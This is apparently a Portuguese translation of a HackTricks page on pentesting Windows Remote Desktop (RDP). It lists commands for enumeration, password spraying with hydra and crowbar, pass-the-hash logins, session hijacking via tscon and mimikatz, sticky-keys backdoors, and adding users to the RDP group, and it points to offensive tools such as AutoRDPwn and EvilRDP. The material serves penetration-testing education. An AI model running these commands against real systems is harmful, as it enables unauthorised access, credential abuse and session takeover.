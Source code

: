 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Configuração instantaneamente disponível para avaliação de vulnerabilidades e testes de penetração**. Execute um pentest completo de qualquer lugar com mais de 20 ferramentas e recursos que vão de reconhecimento a relatórios. Não substituímos os pentesters - desenvolvemos ferramentas personalizadas, módulos de detecção e exploração para dar a eles mais tempo para investigar mais a fundo, explorar sistemas e se divertir.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Informações Básicas

Desenvolvido pela Microsoft, o **Remote Desktop Protocol** (**RDP**) é projetado para permitir uma conexão de interface gráfica entre computadores através de uma rede. Para estabelecer tal conexão, o software cliente **RDP** é utilizado pelo usuário, e, simultaneamente, o computador remoto deve operar o software servidor **RDP**. Essa configuração permite o controle e acesso sem interrupções ao ambiente de desktop de um computador distante, essencialmente trazendo sua interface para o dispositivo local do usuário.

**Porta padrão:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeração

### Automático

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Ele verifica a criptografia disponível e a vulnerabilidade de DoS (sem causar DoS ao serviço) e obtém informações NTLM do Windows (versões).

### [Força bruta](../generic-methodologies-and-resources/brute-force.md#rdp)

**Cuidado, você pode bloquear contas**

### **Spraying de Senhas**

**Cuidado, você pode bloquear contas**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Conectar com credenciais/hash conhecidas
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Verifique credenciais conhecidas contra serviços RDP

rdp\_check.py do impacket permite que você verifique se algumas credenciais são válidas para um serviço RDP:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Configuração instantaneamente disponível para avaliação de vulnerabilidades e pentesting**. Execute um pentest completo de qualquer lugar com mais de 20 ferramentas e recursos que vão de recon até relatórios. Não substituímos os pentesters - desenvolvemos ferramentas personalizadas, módulos de detecção e exploração para dar a eles mais tempo para investigar mais a fundo, explorar vulnerabilidades e se divertir.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Ataques**

### Roubo de sessão

Com **permissões de SYSTEM** você pode acessar qualquer **sessão RDP aberta por qualquer usuário** sem precisar saber a senha do proprietário.

**Obter sessões abertas:**
```
query user
```
**Acesso à sessão selecionada**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Agora você estará dentro da sessão RDP selecionada e terá que se passar por um usuário usando apenas ferramentas e recursos do Windows.

**Importante**: Ao acessar uma sessão RDP ativa, você desconectará o usuário que estava usando-a.

Você pode obter senhas do processo despejando-o, mas este método é muito mais rápido e permite que você interaja com as áreas de trabalho virtuais do usuário (senhas no bloco de notas sem serem salvas no disco, outras sessões RDP abertas em outras máquinas...)

#### **Mimikatz**

Você também pode usar o mimikatz para fazer isso:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Combinando esta técnica com **stickykeys** ou **utilman você poderá acessar um CMD administrativo e qualquer sessão RDP a qualquer momento**

Você pode procurar RDPs que foram backdoor com uma dessas técnicas já com: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

Se alguém de um domínio diferente ou com **melhores privilégios fizer login via RDP** no PC onde **você é um Admin**, você pode **injetar** seu beacon no **processo da sessão RDP** dele e agir como ele:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Ferramentas Automáticas

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** é um framework de pós-exploração criado em Powershell, projetado principalmente para automatizar o ataque **Shadow** em computadores Microsoft Windows. Esta vulnerabilidade (listada como um recurso pela Microsoft) permite que um atacante remoto **veja a área de trabalho de sua vítima sem o seu consentimento**, e até mesmo a controle sob demanda, usando ferramentas nativas do próprio sistema operacional.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Controlar mouse e teclado de forma automatizada a partir da linha de comando
* Controlar a área de transferência de forma automatizada a partir da linha de comando
* Criar um proxy SOCKS a partir do cliente que canaliza a comunicação de rede para o alvo via RDP
* Executar comandos SHELL e PowerShell arbitrários no alvo sem fazer upload de arquivos
* Fazer upload e download de arquivos para/de o alvo mesmo quando as transferências de arquivos estão desativadas no alvo

## Comandos Automáticos HackTricks
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Configuração disponível instantaneamente para avaliação de vulnerabilidades e pentesting**. Execute um pentest completo de qualquer lugar com mais de 20 ferramentas e recursos que vão de reconhecimento a relatórios. Não substituímos os pentesters - desenvolvemos ferramentas personalizadas, módulos de detecção e exploração para dar a eles mais tempo para investigar mais a fundo, explorar vulnerabilidades e se divertir.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
